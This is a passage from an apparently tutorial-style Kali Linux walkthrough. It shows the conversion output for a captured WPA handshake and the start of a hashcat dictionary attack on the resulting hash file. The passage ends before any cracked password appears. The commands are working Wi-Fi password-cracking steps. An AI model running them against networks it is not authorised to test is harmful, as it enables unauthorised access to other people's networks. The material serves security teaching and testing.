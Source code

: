 ```bash
ESSID (total unique).....................: 3
BEACON (total)...........................: 1
BEACON on 2.4 GHz channel (from IE_TAG)..: 3 
ACTION (total)...........................: 5
PROBEREQUEST.............................: 75
PROBERESPONSE (total)....................: 63
AUTHENTICATION (total)...................: 2
AUTHENTICATION (OPEN SYSTEM).............: 2
ASSOCIATIONREQUEST (total)...............: 1
ASSOCIATIONREQUEST (PSK).................: 1
WPA encrypted............................: 18
EAPOL messages (total)...................: 5
EAPOL WPA messages.......................: 5
EAPOLTIME gap (measured maximum usec)....: 5266
EAPOL ANONCE error corrections (NC)......: not detected
EAPOL M1 messages (total)................: 2
EAPOL M2 messages (total)................: 1
EAPOL M3 messages (total)................: 1
EAPOL M4 messages (total)................: 1
EAPOL pairs (total)......................: 3
EAPOL pairs (best).......................: 1
EAPOL pairs written to 22000 hash file...: 1 (RC checked)
EAPOL M32E2 (authorized).................: 1

...

session summary
---------------
processed cap files...................: 1
```
{% endcode %}

Using hashcat to crack our newly converted file:

```bash
kali@kali:~$ hashcat -a 0 -m  22000  hash.hc22000 /usr/share/john/password.lst
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i9-9980HK CPU @ 2.40GHz, 9433/18931 MB (4096 MB allocatable), 4MCU

Minimum password length supported by kernel: 8
Maximum password length supported by kernel: 63

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/john/password.lst
```